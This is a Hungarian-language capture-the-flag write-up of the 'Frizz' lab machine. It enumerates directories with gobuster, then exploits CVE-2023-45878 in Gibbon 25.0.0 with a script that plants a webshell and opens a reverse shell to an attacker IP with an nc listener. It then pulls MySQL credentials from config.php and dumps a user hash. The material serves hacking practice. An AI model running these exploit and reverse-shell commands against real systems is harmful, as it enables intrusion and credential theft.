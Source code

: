 ### DIRBUSTER / GOBUSTER

```
gobuster dir -u http://frizzdc.frizz.htb -w /usr/share/wordlists/dirb/common.txt

/.htaccess (403)
/.htpasswd (403)
... stb.
/Home   (301)  → http://frizzdc.frizz.htb/Home/
/home   (301)  → http://frizzdc.frizz.htb/home/
```

---

## Webalkalmazás felderítése / initial foothold

**Azonosított app:** GIBBON 25.0.0 (nyílt forráskódú iskolai menedzsment rendszer)

- Google: van rá CVE, keresett exploit: **CVE-2023-45878**
- Exploit: **Reverse shell feltöltése webshell-lel**

**Exploit script futtatása:**

```
bash CVE-2023-45878.sh 10.10.14.52 4444 10.10.11.60:80
```

- Feltölti a shellt
- Megnyitja: [http://10.10.11.60:80/Gibbon-LMS/gibbon\_myconfig.php?cmd=whoami](http://10.10.11.60:80/Gibbon-LMS/gibbon_myconfig.php?cmd=whoami)
- Netcat/metasploit listenert nyitni: `nc -lnvp 4444` vagy handler

**Eredmény:** sima reverse shell (command prompt)

---

## Első user / credential hunting

**Talált file:** `config.php` → **MySQL user/pass**

```
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parr*****';
```

**Bejelentkezés MySQL-be:**

```
C:\xampp\mysql\bin> .\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parr*****" -e "show databases;"
```

- Fő DB: `gibbon`
- User tábla: `gibbonperson`

**Talált user:**

- username: f.frizzle
- password hash + salt

